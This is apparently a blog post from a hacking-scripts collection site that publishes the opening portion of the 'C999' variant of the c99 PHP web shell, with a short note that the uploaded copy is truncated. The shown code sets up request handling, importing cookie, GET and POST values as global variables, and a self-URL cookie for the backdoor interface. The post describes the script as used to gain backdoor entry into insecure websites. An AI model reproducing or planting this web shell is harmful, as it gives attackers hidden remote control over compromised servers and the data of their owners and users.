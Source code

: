 ```yaml
---
id: 13
title: C999 shell
author: admin
layout: post
guid: http://hackingscripts.com/?p=13
permalink: /c999-shell/
categories:
  - C99
  - C999
  - PHP
tags:
  - C99
  - C999
  - PHP
---
```

This was the very first hack script uploaded to my website, so it holds a special place in my heart.

It&#8217;s a version of the [c99 shell script][1], which is used by hackers (read: script kiddies) to gain backdoor entry into insecure websites.

It appears to be incomplete (I added the final &#8216;?>&#8217;), perhaps because the end of the script was cut off during the upload process. Note that this script is only just over 1100 lines long, while the [complete C99 shell][1] is about 2000 lines longer! 

I have received many more C99 scripts since this one, most of them complete and more up-to-date than this one.

## C999 Shell Script Source Code

<pre class="brush: php; title: ; notranslate" title="">&lt;?php //Starting calls if (!function_exists("getmicrotime")) {function getmicrotime() { list($usec, $sec) = explode(" ", microtime());  return ((float)$usec + (float)$sec);}} error_reporting(5); @ignore_user_abort(TRUE); @set_magic_quotes_runtime(0); $win = strtolower(substr(PHP_OS,0,3)) == "win"; define("starttime",getmicrotime()); if (get_magic_quotes_gpc()) {if (!function_exists("strips")) { function strips(&$arr,$k="") {if (is_array($arr))  {foreach($arr as $k=--&gt;$v) {if (strtoupper($k) != "GLOBALS") {strips($arr["$k"]);}}}
else {$arr = stripslashes($arr);}}} strips($GLOBALS);}
$_REQUEST = array_merge($_COOKIE,$_GET,$_POST);
foreach($_REQUEST as $k=&gt;$v) {if (!isset($$k)) {$$k = $v;}}
$shver = "1.0 pre-release build #16"; //Current version
//CONFIGURATION AND SETTINGS
if (!empty($unset_surl)) {setcookie("c999sh_surl"); $surl = "";}
elseif (!empty($set_surl)) {$surl = $set_surl; setcookie("c999sh_surl",$surl);}
else {$surl = $_REQUEST["c999sh_surl"]; //Set this cookie for manual SURL
}
$surl_autofill_include = TRUE; //If TRUE then search variables with
                               //descriptors (URLs) and save it in SURL.
if ($surl_autofill_include and !$_REQUEST["c999sh_surl"]) {$include = "&"; foreach
(explode("&",getenv("QUERY_STRING")) as $v) {$v = explode("=",$v);
$name = urldecode($v[0]);
$value = urldecode($v[1]);
foreach (array("http://","https://","ssl://","ftp://","\\\\") as $needle) {
if (strpos($value,$needle) === 0) {
$includestr .= urlencode($name)."=".urlencode($value)."&";}}}
if ($_REQUEST["surl_autofill_include"]) {
$includestr .= "surl_autofill_include=1&";}}
if (empty($surl))
{
 $surl = "?".$includestr; //Self url
}
$surl = htmlspecialchars($surl);
$timelimit = 0; //time limit of execution this script over server quote

 [1]: http://hackingscripts.com/c99-shell/ "C99 Shell"
 [2]: http://hackingscripts.com/wp/wp-content/uploads/2014/01/c999.png